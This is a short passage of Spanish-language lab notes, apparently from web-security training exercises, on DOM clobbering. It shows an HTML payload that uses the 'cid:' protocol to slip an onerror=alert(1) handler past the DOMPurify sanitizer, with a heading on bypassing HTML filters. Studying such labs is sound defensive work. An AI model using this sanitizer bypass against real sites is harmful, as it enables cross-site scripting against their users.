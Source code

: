 ![](/img2/Pasted%20image%2020250811204532.png)

> Para poder insertar las comillas dobles y escapar del 'href' tenemos que hacer uso del protocolo 'cid', el cual evita que se use el URL-Encode en la librería 'domPurify'.

- Injection

```html
<a id=defaultAvatar></a>
<a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//"></>
```

## Bypass de filtros HTML con clobbering DOM || Clobbering DOM attributes to bypass HTML filters

![](/img2/Pasted%20image%2020250811231059.png)

![](/img2/Pasted%20image%2020250811231139.png)
